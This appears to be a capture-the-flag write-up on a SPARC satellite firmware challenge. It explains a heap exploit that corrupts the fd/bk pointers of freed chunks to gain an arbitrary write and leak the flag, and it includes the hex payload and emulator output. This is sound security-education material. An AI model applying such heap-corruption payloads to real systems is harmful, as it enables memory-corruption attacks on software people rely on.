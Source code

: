 ![cue training montage](montage.png)

(source: [https://www.youtube.com/watch?v=8I_5Bw1U4s4](https://www.youtube.com/watch?v=8I_5Bw1U4s4))


Exploitation
---------------

Initially I tried the traditional path of shrinking a chunk in order overlay a newly mallocated chunk with a previous chunk. That way I would be able to trigger the initial off-by-one vulnerability with data I control. Life didn't went this way.

While playing with freed chunks, I realized I could overwrite ``fd`` and ``bk`` of a freed chunk and trigger an arbitrary write when mallocating the freed chunk. But what can I rewrite? I don't know where the heap is located, but I know where the binary is!

The plan is pretty straightforward from then on: 

1) overwrite the ``fd`` and ``bk`` of the next freed chunk in the free list (pretty easy to locate since the allocator is linear)
2) overwrite own chunk ``mchunk_size`` and set bit 31 to 1 in order to "tag" it as freed.
3) the next malloc rewrite ``g_getInfoMessages[0]`` and set our ``bk`` address in it, which points to the string flag located in the ``.data`` section.
2) call **``getInfo``** in order to put out the flag in the console \o/

```console
$ python3 sparc_emulator_sun_sat_again.py --input "0801deadbeef000100250c0608204001e40c4001bf900c06080e0000004080000040030241"
(debug) puts @4001c028
puts(Mission Server: Running)
memcpy(0xcaca0088, 0xcaca004a, 0x8) # overwrite next freed's fd and bk
memcpy(0xcaca0040, 0xcaca004a, 0x8) # tag it as freed in order to fuck up the free list double links.
getInfo(len:0x3, index:0x0)
(debug) puts @4001bf90				# .text:4001BF90 .ascii "FLAG{No, It's not in the firmwar ..."
puts(FLAG{No,)
(debug) puts @4001c230
puts(ACK)
read(2) =
```
